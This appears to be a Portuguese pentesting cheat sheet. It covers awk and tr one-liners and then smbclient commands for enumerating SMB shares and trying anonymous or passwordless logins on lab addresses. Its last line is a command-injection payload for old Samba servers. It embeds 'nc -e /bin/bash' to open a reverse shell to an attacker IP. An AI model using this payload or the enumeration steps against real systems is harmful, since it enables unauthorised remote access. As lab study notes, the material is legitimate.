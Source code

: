 ## 2. AWK - pattern scanning and processing language

```bash
cat /path/file | awk '{ print $1 }'                      # print first element of all lines
cat /path/file | awk '{ print $NF }'                     # print last element of all lines
echo "13" | awk '{ var= $1 ; var += 17; print "o valor da variável é de: "var}'
	# output => o valor da variável é de: 30
echo IP:10_10_10_100 | awk '$1=$1' FS="_" OFS="." | awk '$1=$1' FS=":" OFS=": "
	# output => IP: 10.10.10.100 >> O primeiro awk substitui o "_" por ":" em toda o field 1. e o seguindo adiciona um espaço, com os mesmo método de substituição
```

## 3. TR - Translate, squeeze, and/or delete characters from standard input

> Substitui caracter a caracter

```bash
echo "String: Hello World\!" | tr ":" ","
	# output => String, Hello World!
echo "String: Hello World\!" | tr "abcdefg" "bcdefgh"
	# output => Strinh: Hfllo Worle!
```

<div style="page-break-after: always;"></div>

# 3. Softwares e ferramentas

## 4. SMBClient

### 4.1. Basics

```bash
smbclient -L \\\\10.10.10.10\\                       # Enumera as pastas não ocultas em modo anonymous
smbclient -p 1234 \\\\10.10.10.10\\                  # Especifica uma porta diferente da normal (445)
smbclient \\\\10.10.10.10\\directory                 # Tenta entrar para a pasta "directory" do share SMB
smbclient -k \\\\10.10.10.10\\                       # Kerberos mode
smbclient -U USERNAME -N \\\\10.10.10.10\\           # Tenta entrar com username sem password
smbclient -U USERNAME -P PASSWORD \\\\10.10.10.10\\
smbclient -W WORKGROUP \\\\10.10.10.10\\


# SMB antigos ==>
smbclient //10.10.10.3/tmp -N  # Efectuar login numa pasta com pelo menos permissões de leitura
logon "/=`nohup nc -e /bin/bash 10.10.14.11 443`"  # Efectuar login com um usuário do tipo WTF para executar commando e Tumba pÁh dentro!
```
